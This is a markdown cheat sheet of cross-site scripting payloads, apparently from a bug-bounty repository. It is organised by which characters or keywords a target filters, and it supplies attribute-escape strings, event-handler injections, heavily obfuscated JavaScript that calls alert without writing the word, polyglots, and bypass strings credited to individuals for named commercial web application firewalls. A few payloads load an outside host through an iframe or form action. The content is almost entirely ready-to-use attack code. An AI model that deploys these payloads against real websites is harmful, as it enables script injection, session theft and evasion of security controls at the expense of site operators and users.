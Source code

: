 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```js
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a href="javascript:{ alert`0` }">Click</a>

4) <a src="google.com" onclick="alert(1)">Click</a>

```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```js
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```js
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```js
use Unicodes - UTF8 - UTF16 - UTF32
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>

Burp Suite > Convert Selection > HTML > HTML-encode all character
<a href="javascript:alert(1)">Click</a> =
&lt;&#97;&#32;&#104;&#114;&#101;&#102;&#61;&quot;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&quot;&gt;&#67;&#108;&#105;&#99;&#107;&lt;&#47;&#97;&gt;
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```js
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+`(1)`)()</script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <a"/onclick=(confirm)()>Click Here!

7) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

8) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

9) <sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

10) <bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

11) <script>alert.call(null,1)</script>   (alert.call(%20, "XSS");)

12) <script>confirm.call(null,1)</script>

13) <script>prompt.call(null,1)</script>

14) <script>alert.apply(null, [1])</script>

15) <iframe src=//14.rs>

16) <form><button formaction=http://14.rs>Hacked</form>
```

### 4.If space is encoded or deleted
```js
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```js
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```js
SVG, img, iframe 
```
   
### 6.Some WAF bypass:
```js
@vanshitmalhotra | Bypass AWS WAF -// 
Add "<!" (without quotes) before your payload and bypass that WAF. :)
eg: <!<script>confirm(1)</script>

@black0x00mamba | Bypass WAF Akamaighost & filtered onload, onclick, href, src, onerror, script, etc 
<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

DotDefender WAF bypass by @0xInfection 
<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

@LooseSecurity | Updated CloudFlare bypass (bypasses virtually all WAF you'll encounter in the wild):
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
Javascript URI cushioned between carriage returns with a non-bracketed prompt.

@daveysec | Was able to bypass Imperva Incapsula WAF with:
<svg onload\r\n=$.globalEval("al"+"ert()");>

@rodolfoassis | Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

rodolfoassis | Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

rodolfoassis | ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">
   
@brutelogic | Cloudflare
<Svg Only=1 OnLoad=alert(1)>

### 7.Some good stuffs:
```js
https://github.com/Walidhossain010/WAF-bypass-xss-payloads
https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057
```

### 7.XSS PolyglotsPolice: revolving allow you to test multiple XSS scenarios with ONE payload.  Work smarter not harder:
![xss](https://user-images.githubusercontent.com/63053441/148800150-58f87374-41ad-4ea8-8887-510c652c7452.jpg)
```js
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

